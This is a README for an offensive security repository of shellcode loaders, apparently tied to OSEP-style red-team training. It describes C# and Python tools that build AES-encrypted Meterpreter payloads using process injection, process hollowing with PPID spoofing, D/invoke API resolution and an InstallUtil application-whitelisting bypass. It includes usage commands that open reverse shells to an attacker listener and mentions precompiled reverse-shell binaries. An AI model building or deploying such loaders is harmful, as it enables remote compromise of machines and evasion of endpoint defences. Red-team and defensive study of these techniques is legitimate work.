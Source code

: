 # Loaders - Shellcode

## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `D_invoke/` | EXE | C# project that produces [D/invoke](https://github.com/TheWover/DInvoke) payloads |
| `clinject/` | EXE | C# project that has been modified to accept command line args for an **injected** reverse shell process |
| `clhollow/` | EXE | C# project that has been modified to accept command line args for an **hollowed** reverse shell process |
| `powershell/Powerinject.py` | PS | Python3 script to generate .PS1 payloads that perform process injection. |
| `powershell/Powerhollow.py` | PS | Python3 script to generate .PS1 payloads that perform process hollowing with PPID spoofing |
| `formatters/port_ipeggs.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Powerinject` & `Powerhollow` |
| `formatters/bin_to_vbappArray.py` | TXT | Python3 script to format raw `.bin` shellcode files into proper format for use in VBA Macros |
| `bins/x64_met_staged_reversetcp_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversetcp_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer) |
| `bins/x64_met_staged_reversehttps_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversehttps_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer)  |
| `formatters/formatshellcode.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Builder.exe` |

## [clinject](./clinject/Program.cs) and [clhollow](./clhollow/Program.cs)

These are C# projects that have been modified in order to accept command line `Lhost`, `Lport`, and processes for targeting.  This allows a user to drop the payload on whatever target machine without worry of needing to re-roll shellcode if the attackers IP changes, or the payload needs to be pointed at a different machine in order to hit a tunnel and egress the network.

This was accomplished by using Msfvenom to create shellcode and then locating the IP and port that was specified in the msfvenom command within the output shellcode.  These bytes were replaced with unique identifier strings.  This process was accomplished with the [Port_ipeggs.py](./formatters/portip_eggs.py) script, which finds the hex bytes for the specified IP/PORT combo in a `msfvenom -f csharp` output file and replaces them with `0x11,0x11,0x11,0x11` and `0x22,0x22` respectively.  

This shellcode was then AES encrypted and placed in the C# project.  On run time, the shellcode is decrypted and then the IP and port given by the attacker is converted to hex and placed in the proper location wthin the decyrpted shellcode as marked by the unique identifer strings.

> TODO: Original author notes that `port_ipeggs.py` "Does not work with all payloads. Confirmed works with reverse_tcp, confirmed DOES NOT work with HTTPS". This could be why the HTTPs payloads in `/bins/` don't work. FIX.

### clinject Usage
C# project source code for (IP + port + process) cli passed process injection payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clinject.exe 192.168.1.198 443 explorer
```

### clhollow Usage

C# project source code for (IP + port + process + parent-process) cli passed process hollowing payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clhollow.exe 192.168.1.198 443 c:\\windows\\system32\\svchost.exe explorer 
```

## [powerhollow.py](./powershell/powerhollow.py) and [powerinject.py](./powershell/powerinject.py)

These python scripts call `msfvenom` to generate shellcode, AES encrypt it, and then embed it within hardcoded powershell code in order to dynamically produce *.PS1* payloads according to user supplied options.  These *.PS1* payloads are modeled after the OSEP *.PS1* that utilizes dynamic lookup rather than `add-type` in order to prevent writing to disk when calling `csc`.  

`Powerinject.py` payloads succeed here; however I was unable to find a way to define the structs necessary for doing PPID spoofing with Process hollowing, so **add-type IS called in the `Powerhollow.py`** *.PS1* payloads, however this is only done for the necessesary structs and the `createproces()` Win32API. All other required API's are resolved dynamically.

Run the appropriate python script for the kind of payload you want to use and then place the produced files in your webserver directory and use the supplied PS one liner in order to call them.

## [D_invoke](./D_invoke/Builder/Program.cs)

C# project that produces D/invoke payloads (basic, injector, hollower + ppid spoof) in exe, dll, or service exe format.  Use pre-built builder.exe in the D_Invoke directory.

This is a package built using TheWover's project and research as the foundation (https://github.com/TheWover/DInvoke, https://thewover.github.io/Dynamic-Invoke/).

The inspiration for this project was to simplify the process of generating compiled C# payloads.  By using this project, a user never need open visual studio when creating payloads.

### General Usage Steps

1. Generate shellcode
    - This was built with msfvenom shellcode in c# as the primary input, however it was retooled to take .bin files during some testing with CobaltStrike
    - i.e. it takes C# & binary input
2. Format the shellcode for use with `Builder.exe` using the [formatshellcode.py](./formatters/formatshellcode.py) script (for msfvenom shellcode)
3. Transfer formatted shellcode to your Windows dev machine
4. Run builder.exe with the proper switches
5. Voila. You have your AES encryped shellcode D/invoke payload in whatever format and technique you want!

### Details 

The foundation of this package is `Builder.exe`.  This application allows the user to specify several options to include:

1. Format of payload (`/F:`)
    - EXE, DLL, OR Service EXE
2. Technique (`/T:`)
    - Local injection
    - Remote injection
    - Process hollowing with PPID spoofing
3. Shellcode file (`/S:`)
    - File containing parsed shellcode
4. Process name (`/P:`)
    - Process to corrupt for injection
        - Must be pretty name, e.g. `explorer`
    - Process to spawn for hollowing
        - Must be absolute path, e.g. `c:\\windows\\system32\\svchost.exe` (escape backslashes)
5. Parent Process (`/X:`)
    - Process for PPID spoofing with process hollowing technique
        - Must be pretty name, e.g. `explorer`
6. Architecture (`/A:`)
    - x86 OR x64

After the user specifies all the above options, a "`template.cs`" file within the selected format project (exe, dll, service) will be edited and the payload pieced together.  `Builder.exe` has hardcoded within it the necessary code for the various options (d/invoke statements for hollowing w/ ppid spoofing for example) that will be placed into the template file in the proper manner in the given format (exe, dll, service exe).

Builder will AES-256 encrypt the shellcode (*generating a new key and IV each time it is run*) and embed the encrypted shellcode within the template file. Once the template file is complete, it will be saved over `program.cs` in the respective format project.  MSBuild will then be called on the updated `program.cs` file in order to create the final payload in exe, dll, or service exe format.

### Limitations

The produced payloads use D/invoke statements for most, *but not all* of the API calls. Certain simple ones (As well as certain complex ones in the process hollowing payload) still use `p/invoke`. An `Installutil` bypass is baked into each *.exe* payload for use in case application whitelisting is in place.

Additionally, direct *syscalls* have not been implemented in this project. It is maybe a direction for further work. However given that certain EDR's don't even hook userland syscalls anymore, I haven't done this yet as I need to do more research on the correct direction to go in the future. 

Note that this tool was developed for personal use, not production.  As such there are some shortcomings in that there are hardcoded paths where `Builder.exe` expects to find things:
1. `Builder.exe` should only be run from within the d/invoke folder
    - i.e. `builder.exe` should be in the same folder as the dll, exe, and service folders as it is on the hosted repo
2. Additionally, MSBuild is hardcoded for VS2019
    - If you are utilizing a different version, you will need to edit the source code of `Builder.exe` and update it with the path to MSBuild within your version.

## `/bins/`

This directory just holds precompiled binaries created with the `clhollow` and `clinject` projects using `windows/x64/meterpreter/reverse_https` and `windows/x64/meterpreter/reverse_tcp` payloads.
